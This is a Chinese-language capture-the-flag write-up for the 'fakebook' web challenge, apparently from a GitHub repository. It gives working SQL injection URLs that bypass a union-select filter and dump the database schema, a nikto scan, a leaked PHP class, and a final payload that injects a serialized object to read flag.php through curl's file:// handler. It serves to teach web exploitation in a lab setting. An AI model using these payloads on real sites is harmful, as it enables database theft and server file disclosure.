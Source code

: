 # fakebook
## 题目描述
暂无
## 思路
http://220.249.52.133:48086  
点开题目链接，是一个有着登录和注册的页面。登录是登录不进去的，因为没有注册过，然后注册，呈现如下页面：  
![avatar](./picture/fakebook_1.png)  
点进去超链接：  
http://220.249.52.133:48086/view.php?no=1  
![avatar](./picture/fakebook_2.png)  
看到有一个 GET 参数，猜测本题可能有某种注入。  
http://220.249.52.133:48086/view.php?no=1 or 1=1  
没报错，因此，可以注入。现在的问题是，用何种注入？  
***
分析一下，和 no 可以直接访问的数据库应该是这个用户列表，即存着注册用户的信息，而唯一的用户是我们自己注册的，必然没什么卵用。  
因此，考虑以下两种注入，一个是爆破数据库，看看有没有其他可以访问的数据库、表、列，并从中获取有用的信息；第二个是命令行注入，查看同目录下有没有其他可访问的文件。  
***
首先试试爆破，结果被识别出来了，应该是存在过滤，但是不知道哪种，因此都试试，最后发现，是union select 被过滤了，因此，先后用以下三个 url：  
http://220.249.52.133:48086/view.php?no=0 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#  
![avatar](./picture/fakebook_3.png)  
http://220.249.52.133:48086/view.php?no=0 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=database()#  
![avatar](./picture/fakebook_4.png)  
http://220.249.52.133:48086/view.php?no=0 union/**/select 1,data,3,4 from users#  
![avatar](./picture/fakebook_5.png)  
出来一个序列化的值，且看到了文件路径。  
暂时还没有什么思路，扫描一下网站目录，看看有什么有价值的信息，用 nikto 扫描：  
```shell
nikto -host http://220.249.52.133:48086/
```
![avatar](./picture/fakebook_6.png)  
扫出来一个 robots.txt，访问一下，发现有个 user.php.bak 文件，访问并下载，看到一段 php 代码：  
```php
<?php
class UserInfo {
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog) {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url) {
        $ch = curl_init(); //初始化一个cURL会话
        curl_setopt($ch, CURLOPT_URL, $url); //设置需要抓取的URL参数
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch); //运行一个URL
        //获取URL的连接资源句柄的信息
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);
        return $output;
    }

    public function getBlogContents () {
        //获取blog信息
        return $this->get($this->blog);
    }

    public function isValidBlog () {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
审计一下，发现，get 函数会获取 blog 的链接，如果访问失败，则会返回404，成功则输出链接内容。  
方法有了，可是访问什么文件呢？用御剑扫描也没有有用的东西：  
![avatar](./picture/fakebook_7.png)  
试试 flag.txt、flag.php 吧，不行就看 wp 了。  
因此构造 payload：  
http://220.249.52.133:48086/view.php?no=0 union/**/select 1,2,3,‘O:8:“UserInfo”:3:{s:4:“name”;s:1:“1”;s:3:“age”;i:1;s:4:“blog”;s:29:“file:///var/www/html/flag.php”;}’  
竟然能访问：  
![avatar](./picture/fakebook_8.png)    
查看网页源码，看到有 base64：  
![avatar](./picture/fakebook_9.png)  
解码，得到 flag：  
![avatar](./picture/fakebook_10.png)  
